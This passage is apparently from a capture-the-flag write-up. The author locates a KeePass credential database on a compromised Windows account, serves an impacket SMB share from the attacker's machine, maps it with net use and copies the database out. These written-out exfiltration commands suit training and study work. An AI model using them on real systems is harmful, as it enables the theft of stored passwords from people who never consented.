 More interesting is in his documents... a keepass db.
```bash
c:\Users\kohsuke>dir documents
dir documents
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\Users\kohsuke\documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,669,166,592 bytes free
```

Now here is a tricky bit, while we are in this thing as Kohsuke, we do not have his password, which is going to make moving this file interesting. If we're lucky, we might be able to throw up a SMB server to transfer the files.
```bash
impacket-smbserver Folder loot
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
Now let's see if we can map the drive on the client machine...
```bash
c:\Users\kohsuke>net use z: \\10.10.14.37\Folder
net use z: \\10.10.14.37\Folder
The command completed successfully.


c:\Users\kohsuke>
```

Ok, so that worked, now all we have to do is copy the file over...
```bash
:\Users\kohsuke\Documents>copy CEH.kdbx z:\
copy CEH.kdbx z:\
        1 file(s) copied.

c:\Users\kohsuke\Documents>dir z:\
dir z:\
 Volume in drive Z has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of z:\

10/24/2025  01:24 AM    <DIR>          .
10/23/2025  08:31 PM    <DIR>          ..
12/31/1969  07:59 PM             2,846 CEH.kdbx
               1 File(s)         11,038 bytes
               2 Dir(s)  15,207,469,056 bytes free

c:\Users\kohsuke\Documents>
```
